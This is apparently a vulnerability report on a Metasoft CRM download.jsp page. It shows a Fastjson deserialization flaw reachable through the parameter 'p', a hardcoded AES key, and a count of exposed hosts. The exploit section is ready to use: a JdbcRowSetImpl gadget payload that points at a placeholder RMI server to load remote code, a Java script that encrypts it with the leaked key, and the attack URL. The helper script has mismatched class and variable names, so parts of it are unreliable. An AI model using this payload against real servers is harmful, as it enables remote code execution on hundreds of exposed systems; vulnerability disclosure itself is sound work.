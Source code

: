 ### <font style="color:rgb(28, 31, 35);">The download.jsp has a front-end Fastjson deserialization vulnerability.</font>
<font style="color:rgb(28, 31, 35);">The number of IPs using this software and their fingerprints are as follows:</font>

**<font style="color:rgb(28, 31, 35);">1,342 matching results, with 735 unique IPs.</font>**

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1751782333856-f16a2cbf-071d-4f15-9b3a-39d858a04271.png?x-oss-process=image%2Fformat%2Cwebp)

<font style="color:rgb(28, 31, 35);">One sink point is located in `com.metasoft.framework.pub.download.AnalyzeParam`.</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1751860281856-54bf9502-8ed6-46e3-ab75-83aa426e89c8.png)

<font style="color:rgba(0, 0, 0, 0.85);">The AEC (Advanced Encryption Standard) class handles encryption, decryption, and hashing operations on encrypted data. However, the encryption code employs a hardcoded secret key, which introduces a critical vulnerability:</font>

```bash
package com.metasoft.framework.pub.malg.aes;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import sun.misc.BASE64Decoder;
import sun.misc.BASE64Encoder;

public class AesEcbCipher {
    private static final String SECRET_KEY = "metacrmloginpass";
    private byte[] key = "metacrmloginpass".getBytes();

    public AesEcbCipher(String secretKey) {
        this.key = secretKey.getBytes();
    }

    public AesEcbCipher() {
    }

    public String Encrypt(String sSrc) {
        try {
            SecretKeySpec skeySpec = new SecretKeySpec(this.key, "AES");
            Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
            cipher.init(1, skeySpec);
            byte[] encrypted = cipher.doFinal(sSrc.getBytes("UTF-8"));
            return (new BASE64Encoder()).encode(encrypted);
        } catch (Exception var5) {
            Exception ex = var5;
            ex.printStackTrace();
            return null;
        }
    }

    public String Decrypt(String sSrc) {
        if (sSrc != null && sSrc.length() != 0) {
            try {
                SecretKeySpec skeySpec = new SecretKeySpec(this.key, "AES");
                Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
                cipher.init(2, skeySpec);
                byte[] encrypted1 = (new BASE64Decoder()).decodeBuffer(sSrc);
                byte[] original = cipher.doFinal(encrypted1);
                String originalString = new String(original, "UTF-8");
                return originalString;
            } catch (Exception var7) {
                return sSrc;
            }
        } else {
            return sSrc;
        }
    }

    public String encrypt(String sSrc) {
        try {
            SecretKeySpec skeySpec = new SecretKeySpec(this.key, "AES");
            Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
            cipher.init(1, skeySpec);
            byte[] encrypted = cipher.doFinal(sSrc.getBytes("UTF-8"));
            return Hex.encodeHexStr(encrypted);
        } catch (Exception var5) {
            Exception ex = var5;
            ex.printStackTrace();
            return null;
        }
    }

    public String decrypt(String sSrc) {
        if (sSrc != null && sSrc.length() != 0) {
            try {
                SecretKeySpec skeySpec = new SecretKeySpec(this.key, "AES");
                Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
                cipher.init(2, skeySpec);
                byte[] encrypted1 = Hex.decodeHex(sSrc.toCharArray());
                byte[] original = cipher.doFinal(encrypted1);
                String originalString = new String(original, "UTF-8");
                return originalString;
            } catch (Exception var7) {
                return sSrc;
            }
        } else {
            return sSrc;
        }
    }
}

```

<font style="color:rgb(28, 31, 35);">Tracing further up to see where AnalyzeParam is called, we arrive at /business/common/download.jsp.</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1751860486967-54c61726-50b2-4699-bd1a-296267c0b833.png)

<font style="color:rgb(28, 31, 35);">Here, data is passed in via the parameter `p` and assigned to `downUrl`, after which `AnalyzeParam` is called to perform related operations on `downUrl`. This makes the call chain clear as follows:</font>

/business/common/download.jsp -> com.metasoft.framework.pub.download.AnalyzeParam -> com/metasoft/framework/pub/malg/aes/AesEcbCipher

**Exploitation POC:**  
<font style="color:rgba(0, 0, 0, 0.85);">Leverage a generic Fastjson gadget chain:</font>

```bash
{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://你的RMI服务器/Object","autoCommit":true}}""}
```

这<font style="color:rgb(28, 31, 35);">The RMI service here is implemented using the tool available at </font>**<font style="color:rgb(28, 31, 35);">https://github.com/wyzxxz/jndi_tool</font>**<font style="color:rgb(28, 31, 35);">, which works really well! The constructed encryption script is as follows:</font>

```bash
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import org.apache.commons.codec.binary.Hex;

public class HelloAES {
    private static final String SECRET_KEY = "metacrmloginpass";
    private byte[] key = SECRET_KEY.getBytes();


    public FuckAES(String secretKey) {
        this.key = secretKey.getBytes();
    }

    public FuckAES() {
    }

    public String encrypt(String sSrc) {
        try {
            SecretKeySpec skeySpec = new SecretKeySpec(this.key, "AES");
            Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
            cipher.init(Cipher.ENCRYPT_MODE, skeySpec);
            byte[] encrypted = cipher.doFinal(sSrc.getBytes("UTF-8"));
            return Hex.encodeHexString(encrypted);
        } catch (Exception ex) {
            ex.printStackTrace();
            return null;
        }
    }

    public String decrypt(String sSrc) {
        if (sSrc != null && !sSrc.isEmpty()) {
            try {
                SecretKeySpec skeySpec = new SecretKeySpec(this.key, "AES");
                Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
                cipher.init(Cipher.DECRYPT_MODE, skeySpec);
                byte[] encrypted1 = Hex.decodeHex(sSrc.toCharArray());
                byte[] original = cipher.doFinal(encrypted1);
                return new String(original, "UTF-8");
            } catch (Exception ex) {
                return sSrc;
            }
        } else {
            return sSrc;
        }
    }

    public static void main(String[] args) {

        String HelloPayload = "{\"@type\":\"com.alibaba.fastjson.JSONObject\",{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://你的RMI服务\",\"autoCommit\":true}}\"\"}";

        String Helloppp = new HelloAES().encrypt(fuckPayload);

        System.out.println(Helloppp);

        System.out.println(new HelloAES().decrypt(Helloppp));

    }
}
```

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1751861026213-8a9726b6-3cc7-48b8-a24a-a7fac90bf99b.png)

**Exploitation POC:**

`http://ip/business/common/download.jsp?p=yourpayload`。

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1751861116964-2b88ec3e-3669-4f6a-8726-06534eb5ce44.png)

<font style="color:rgba(0, 0, 0, 0.85);">RMI callback display:</font>

![](https://cdn.nlark.com/yuque/0/2025/png/50620181/1751861084445-a615b980-3ead-49fa-ba80-728d76ec8109.png)

This proves that the vulnerability exists.

Wish you a pleasant life, and thank you for your review!

